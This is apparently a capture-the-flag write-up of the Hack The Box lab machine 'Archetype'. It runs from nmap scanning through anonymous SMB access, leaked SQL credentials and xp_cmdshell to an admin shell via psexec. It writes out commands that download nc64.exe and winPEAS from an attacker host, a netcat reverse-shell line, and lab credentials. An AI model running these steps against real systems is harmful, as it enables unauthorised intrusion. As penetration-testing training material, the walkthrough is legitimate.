 ```yaml
---
layout: post
title: Archetype
published: true
category: CTF
system: windows
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: Easy hackthebox machine from nmap to root with some impacket and smb.
tags: Network, Protocols, MSSQL, SMB, Impacket, Powershell, Penetration Tester Level 1, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access
---
```


Start off with an nmap after adding archetype to `/etc/hosts`.

- `nmap -p-` followed by `sudo nmap -sC -sT -sV -O -p135,139,445,1433,5985 archetype.htb -oN nmap_1`

```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-12-29T06:54:24+00:00; 0s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-29T06:47:55
|_Not valid after:  2052-12-29T06:47:55
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T22:54:15-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m00s, deviation: 4h00m01s, median: 0s
| smb2-time: 
|   date: 2022-12-29T06:54:17
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

Port 1433 has an SQL server and we have a SMB share that we can access anonomysly, and grab a file with some credentials for the SQL server.

1. `smbclient -L archetype.htb` to list the shares
2. `smbclient \\\\archetype.htb\\backups` 
3. `dir` to check for files and `get prod.dtsConfig`

Checking this file we see a password and user `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

Lets try to use impackets `mssqlclient.py` to connect

- `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@archetype.htb -windows-auth`

We're connected. We can use `help` and then see that we can execute commands with `xp_cmdshell cmd`. `xp_cmdshell` is disabled by default but no worries we can enable this `enable_xp_cmdshell` and then we are free to run commands. We can upload an `nc64.exe` to the target. Set up a python server on our attaker `python3 -m http.server 80`, and a listener `nc -nvlp 6666`

Download the file to the attacker `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.40/nc64.exe -outfile nc64.exe"` Then we can use it to connect back to our listener: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.40 6666"`

Download winpeas to the target `powershell wget http://10.10.14.40/winPEASx64.exe -outfile winpeas.exe`

- `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

We can see the user creds `administrator:MEGACORP_4dm1n!!`

User flag: `type user.txt` from sql_svc's desktop

With the admin credentials we can use the `psexec.py` took now to gain an admin shell.

- `python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@archetype.htb`

Root flag: login to administrator and check desktop.


